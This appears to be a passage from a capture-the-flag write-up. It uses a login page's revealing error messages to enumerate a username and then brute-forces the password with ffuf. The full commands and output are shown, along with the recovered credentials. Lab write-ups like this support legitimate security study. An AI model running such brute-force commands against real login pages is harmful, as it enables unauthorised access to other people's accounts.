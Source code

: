 `http://www.vulnbegin.co.uk/cpadmin/login` reveals when a username is incorrect with a `Username is invalid` prompt.

Thus, we can try to bruteforce the username and then the password.

`ffuf -w /usr/share/wordlists/ctf/usernames.txt -X POST -d "username=FUZZ&password=x" -t 1 -p 0.1 -b $ctfc -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -fr 'Username is invalid'`
```
________________________________________________

 :: Method           : POST
 :: URL              : http://www.vulnbegin.co.uk/cpadmin/login
 :: Wordlist         : FUZZ: /usr/share/wordlists/ctf/usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: $ctfc
 :: Data             : username=FUZZ&password=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1
 :: Delay            : 0.10 seconds
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Regexp: Username is invalid
________________________________________________

admin                   [Status: 200, Size: 1483, Words: 422, Lines: 37]
```


Now, we can try to bruteforce the password with the same technique

`ffuf -w /usr/share/wordlists/ctf/passwords.txt -X POST -d "username=admin&password=FUZZ" -t 1 -p 0.1 -b $ctfc -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -fr 'Password is invalid'`
```
________________________________________________

 :: Method           : POST
 :: URL              : http://www.vulnbegin.co.uk/cpadmin/login
 :: Wordlist         : FUZZ: /usr/share/wordlists/ctf/passwords.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: $ctfc
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1
 :: Delay            : 0.10 seconds
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Regexp: Password is invalid
________________________________________________

159753                  [Status: 302, Size: 0, Words: 1, Lines: 1]

```
Once logged in with the password `159753`, we find another flag.
